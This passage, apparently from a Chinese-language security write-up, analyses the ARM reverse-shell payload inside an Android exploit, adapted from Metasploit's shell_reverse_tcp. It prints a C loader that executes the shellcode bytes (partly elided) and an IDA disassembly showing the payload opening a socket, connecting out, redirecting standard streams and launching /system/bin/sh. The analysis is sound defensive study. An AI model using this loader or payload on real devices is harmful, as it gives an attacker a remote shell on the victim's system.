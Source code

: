 exploit代码看shell_reverse_tcp是反向连接到目标ip:port的一段payload，这段代码是从metasploit的`shell_reverse_tcp`[[3]](https://github.com/rapid7/metasploit-framework/blob/master/modules/payloads/singles/linux/armle/shell_reverse_tcp.rb)修改而来的。为了搞清楚这段代码的功能，我们写了一段loader来加载这段代码，然后反汇编进行分析，如下：

```
unsignedchar payload[] = 
"\x02\x70\xa0\xe3"
……
"65\x6d\x2f\x62\x69\x6e\x3a\x2f\x73\x79\x73\x74\x65\x6d\x2f\x78\x62\x69\x6e\x00";
int loader()
{
printf("hello payload: 0x%x\n", payload);
asm__volatile__ (
"ldr r0, =payload \t\n"
"blx r0 \t\n");
return0;
}
int main(intargc, char* constargv[])
{
loader();
return0;
}

```

中`payload[]`数组中的数据是从exploit的`shell_reverse_tcp`中提取的。这种加载方式在Android 4.1.x可以运行，高版本Android增加了安全缓解技术，会报错，但不影响分析代码。用IDA Pro加载编译程序，可以看到shell_reverse_tcp的反汇编代码如下：

```
.data:00002000 02 70 A0 E3                             MOV             R7, #2
.data:00002004 00 0000 EF                             SVC             0       ; __fork
.data:00002008 00 00 50 E3                             CMP             R0, #0
.data:0000200C 02 00 00 0A                             BEQ             loc_201C
.data:00002010 00 00 A0 E3                             MOV             R0, #0
.data:00002014 01 70 A0 E3                             MOV             R7, #1
.data:00002018 00 0000 EF                             SVC             0       ; _exit_thread
.data:0000201Cloc_201C                                ; CODE XREF: .data:0000200Cj
.data:0000201C 42 70 A0 E3                             MOV             R7, #0x42
.data:00002020 00 0000 EF                             SVC             0       ; setsid
.data:00002024 02 00 A0 E3                             MOV             R0, #2
.data:00002028 01 10 A0 E3                             MOV             R1, #1
.data:0000202C 05 20 81 E2                             ADD             R2, R1, #5
.data:00002030 8C 70 A0 E3 8D 70 87 E2                 MOV             R7, #0x119
.data:00002038 00 0000 EF                             SVC             0       ; socket
.data:0000203C 00 60 A0 E1                             MOV             R6, R0
.data:00002040 6C 10 8F E2                             ADR             R1, loc_20B4 ; structsockaddr_in
.data:00002044 10 20 A0 E3                             MOV             R2, #0x10
.data:00002048 8D 70 A0 E3 8E 70 87 E2                 MOV             R7, #0x11B
.data:00002050 00 0000 EF                             SVC             0       ; connect
.data:00002054 06 00 A0 E1                             MOV             R0, R6
.data:00002058 00 10 A0 E3                             MOV             R1, #0
.data:0000205C 3F 70 A0 E3                             MOV             R7, #0x3F
.data:00002060 00 0000 EF                             SVC             0       ; dup2
.data:00002064 06 00 A0 E1                             MOV             R0, R6
.data:00002068 01 10 A0 E3                             MOV             R1, #1
.data:0000206C 3F 70 A0 E3                             MOV             R7, #0x3F
.data:00002070 00 0000 EF                             SVC             0       ; dup2
.data:00002074 06 00 A0 E1                             MOV             R0, R6
.data:00002078 02 10 A0 E3                             MOV             R1, #2
.data:0000207C 3F 70 A0 E3                             MOV             R7, #0x3F
.data:00002080 00 0000 EF                             SVC             0       ; dup2
.data:00002084 30 00 8F E2                             ADR             R0, aSystemBinSh ; "/system/bin/sh"
.data:00002088 04 40 24 E0                             EOR             R4, R4, R4
```